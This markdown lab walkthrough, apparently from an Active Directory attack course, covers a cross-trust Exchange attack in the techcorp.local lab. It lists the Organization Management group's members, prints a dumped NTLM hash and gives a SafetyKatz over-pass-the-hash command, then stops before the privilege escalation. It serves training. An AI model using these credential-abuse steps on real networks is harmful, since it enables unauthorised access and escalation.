


# Hands-on 17: Cross Trust Attacks - MS Exchange

- [Hands-on 17: Cross Trust Attacks - MS Exchange](#hands-on-17-cross-trust-attacks---ms-exchange)
  - [Tasks](#tasks)
  - [Enumerate the membership of Organization Management group in techcorp.local](#enumerate-the-membership-of-organization-management-group-in-techcorplocal)
  - [Abuse the permissions with the group to escalate privileges to Enterprise Admins in techcorp.local](#abuse-the-permissions-with-the-group-to-escalate-privileges-to-enterprise-admins-in-techcorplocal)

---

## Tasks

- Enumerate the membership of Organization Management group in `techcorp.local`.  
- Abuse the permissions with the group to escalate privileges to Enterprise Admins in `techcorp.local`.

<br/>

---

## Enumerate the membership of Organization Management group in techcorp.local

Use AD Module to enumerate:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
Get-ADGroupMember -Identity "Organization Management" -Server techcorp.local
```

  

There are 3 members in **Organization Management Group**
- us\exchangemanager
- us\exchangeadmin
- techcorp\administrator

<br/>

## Abuse the permissions with the group to escalate privileges to Enterprise Admins in techcorp.local

In [Hands-on 14](l14-GoldenTicket.md), we dumped the hashes in `us.techcorp.local`. The hash of `us\exchangeadmin`:

```
RID  : 00000464 (1124)
User : exchangeadmin
LM   :
NTLM : 65c1a880fcf8832d55fdc1d8af76f117
```

<br/>

First perform an over-pass-the-hash as local admin:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:exchangeadmin /ntlm:65c1a880fcf8832d55fdc1d8af76f117 /run:powershell.exe" "exit"
```

  

<br/>

